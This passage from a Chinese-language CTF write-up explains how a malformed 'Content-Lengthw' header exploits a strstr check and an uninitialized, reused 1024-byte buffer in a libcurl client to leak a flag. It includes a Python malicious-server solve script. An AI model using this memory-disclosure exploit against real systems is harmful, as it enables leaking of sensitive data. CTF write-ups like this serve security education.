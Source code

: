 ```c
                curl_easy_strerror(res));
        }

        curl_easy_cleanup(curl);
    }
    return 0;
}
```

注意header_callback检查CL头的时候用strstr函数，意味着我们可以用`Content-Lengthw: 1023`这样的头来给response分配1023+1=1024的空间

理论上来说，malloc应该在verify_flag_file的地方及时地释放掉含有flag的部分并且正确给出response，但是根据[doc - the curl docs for the write callback](https://curl.se/libcurl/c/CURLOPT_WRITEFUNCTION.html)，传入的数据并没有空字符作为终止符，而题目puts(response)的内容会到response_buf的末尾，也就是1024大小

最后，response中前16字节是空字节，我们需要在发送16字符让它们变为非空

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind(('0.0.0.0', 6969))
s.listen()

conn, addr = s.accept()
print('Accepted connection.')
with conn:
    data = b''
    while not data.endswith(b'\r\n\r\n'):
        data += conn.recv(1)

    print(data)

    conn.sendall(
        b'HTTP/1.1 200 OK\r\n'
        b'Content-Lengthw: 1023\r\n'
        b'\r\n' + b'a'*16
    )

s.close()
```

严格来说这并不是smuggling的问题，最多是涉及到TE

There was a use after free on the buffer the flag was stored in. If you could get the binary to re-allocate another 1024-length buffer and not fill it in, it will contain the flag that was originally read into the "flag validity checking" buffer.

虽然还是有一点点不太懂

#### [BuckeyeCTF 2021]sozu

这下是正经的smuggling问题了
